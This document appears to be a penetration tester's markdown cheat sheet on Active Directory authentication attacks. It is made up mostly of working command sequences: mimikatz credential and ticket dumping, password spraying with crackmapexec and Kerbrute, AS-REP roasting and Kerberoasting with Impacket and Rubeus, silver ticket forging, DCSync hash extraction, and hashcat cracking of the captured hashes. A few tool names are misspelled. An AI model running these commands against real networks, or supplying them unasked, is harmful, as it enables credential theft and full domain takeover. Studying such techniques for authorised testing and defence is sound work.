 # AD authentication attacks

## Principle - Cached creds

Credentials are hashed and stored to save authentication processes.

### Hashes - ideal case

https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf

With the `SeDebugPrivilege` privilege (works with __local admins__):
```
PS > .\mimikatz.exe
m $ privelege::debug
m $ sekurlsa::logonpasswords
```

### Tickets - retrival of TGT and TGS

In another terminal:
```
PS2 > dir \\some_other_host\smb\some_share # in another terminal
```
and back in Mimikatz:
```
m $ sekurlsa::tickets
```

## Authentication attacks

### Passwords

#### Lockout

Lockout threshold for password attacks:
```
net accounts
```

#### LDAP password attack using AD authentication - Principle

LDAP query with user and password authentication:
```
# Building the query
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$pdc = ($domainObj.PdcRoleOwner).Name
$searchString = "LDAP://"
$searchString += $pdc + "/"
$distinguishedName = "DC=$($domainObj.Name.Replace('.',',DC='))"
$searchString += $distinguishedName

# Authentication attack
New-Object System.DirectoryServices.DirectoryEntry($searchString, "someuser", "somepass")
```

#### LDAP spray password attack - "Spray-passwords" script 

Spray-passwords on GitHub: https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1
```
PS > powershell -ep bypass
PS > .\Spray-Passwords.ps1 -Pass somepass -Admin
```

#### SMB attacks - crackmapexec

CrackMapExec GitHub: https://github.com/Porchetta-Industries/CrackMapExec

```
kali $ vi userstohack.txt
kali $ crapmapexec smb $targetIp -u userstoattack.txt -p 'somepassword' -d targetorganisation.com --continue-on-success
kali $ crapmapexec smb $targetIpRange.1-254 -u user -p 'password' -d targetorganisation.com --continue-on-success
```
Warning: can lock users out

#### Kerbrute

Kerbrute on GitHub: 
- https://github.com/ropnop/kerbrute
- https://github.com/ropnop/kerbrute/releases

```
PS > type userstohack.txt
PS > .\kerbrute_windows_amd64.exe passwordspray -d targetorg.com .\userstohack.txt 'somepassword'
```

### AS-REQ Roasting

Retrieves hashes used by regular users.

Takes _Do not require Kerberos preauthentication_ to be enabled (disabled by default).

#### From Linux with Impacket-GetNPUsers

Impacket-GetNPUsers on GitHub: https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py \
and wiki: https://www.aldeid.com/wiki/Impacket/GetNPUsers
```
$ impacket-GetNPUsers -dc-ip $TargetDcIp -request -outputfile hashes_as-rep_to_roast.txt organisation.com/any_user
$ hashcat --help | grep -i 'kerberos' # look for "AS-REP" in this case
$ hashcat -m 18200 hashes_as-rep_to_roast.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

#### From Windows with Rubeus

Rubeus on GitHub: https://github.com/GhostPack/Rubeus
```
PS > .\Rubeus.exe asreproast /nowrap
```
Copy the hash and crack it on Kali with `hashcat`:
```
sudo hashcat -m 18200 hashes_retrieved_with_Rubeus_on_Windows /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

#### Users to AS-REQ roast

To get all users with option _Do not require Kerberos preauthentication_ enabled from Linux, with a user list file:
```
$ impacket-GetNPUsers -usersfile users.txt -request -format hashcat -outputfile ASREProastables.txt -dc-ip $IpDomainController 'somedomain.com'
```
and on Windows:
```
Import-Module c:\path\to\powerview.ps1
Get-DomainUser -PreauthNotRequired
```

### Kerberoasting - TGS-REP on SPN

Retrieves hashes used by Service Accounts.

#### With Impacket-GetUserSPNs

Impacket-GetUserSPNs on GitHub: https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py
```
$ impacket-GetUserSPNs -request -dc-ip $TargetDomainControlerIp organisation.com/someuser
$ hashcat --help | grep -i kerberos
$ hashcat -m 13100 spn_hash_to_hack.txt /usr/share/wordlist/rockyou.txt -r myrulefile.rule --force
```

#### With Rubeus

```
PS c:\path\to\rubeus> .\Rubeus.exe kerberoast /outfile:spn_hash_to_hack.txt
```
and crack it with `hashcat`. With `GenericWrite` or `GenericAll` permissions on another AD user: 
- https://adsecurity.org/?p=3658 (to avoid)
- https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11)

### Silver ticket

Takes _Privileged Account Certificate_ (PAC) not to be enabled (usual): https://adsecurity.org/?p=2011
```
PS > iwr -UseDefaultCredentials http://internalwebsite # access denied
PS > c:\path\to\mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords # get the webserver's service NTLM hash
PS > whoami /user # get the domain SID: S-1-5-21-xtake-ytake-ztake-donottaketheuserRID
mimikatz # kerberos::golden /sid:domainsid /domain:organisation.com /ptt /target:internalwebsite.organisation.com /service:http /rc4:ntlmhash /user:anyuser
mimikatz # exit
PS > klist
PS > iwr -UseDefaultCredentials http://internalwebsite # access granted
```

### Domain Controler Sync

Needs:
- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes in Filtered

which are provided by:
- Domain Admins
- Enterprise Admins
- Administrators (NOT local admins)

DCSync attack details: https://adsecurity.org/?p=2398#MimikatzDCSync \
Impacket-Secretsdump on GitHub: https://github.com/fortra/impacket/blob/master/examples/secretsdump.py

#### From Linux

```
impacket-secretsdump -just-dc-user someuser organisation.com/someadminuser:"adminpassword"@domaincontrolerIp
hashcat -m 1000 ntlm_hash_from_impacket-secretsdump /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

impacket-secretsdump -just-dc-user Administrator organisation.com/someadminuser:"adminpassword"@domaincontrolerIp
impacket-secretsdump -just-dc-user krbtgt organisation.com/someadminuser:"adminpassword"@domaincontrolerIp
```

#### From Windows

From an account with _Replicating Directory Changes_ rights:
```
PS > c:\path\to\mimikatz.exe
mimikatz # lsadump::dcsync /user:mydomainname\target_username
$ hashcat -m 1000 ntlm_hash_from_mimikatz /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

mimikatz # lsadump::dcsync /user:mydomainname\Administrator
mimikatz # lsadump::dcsync /user:mydomainname\krbtgt
```



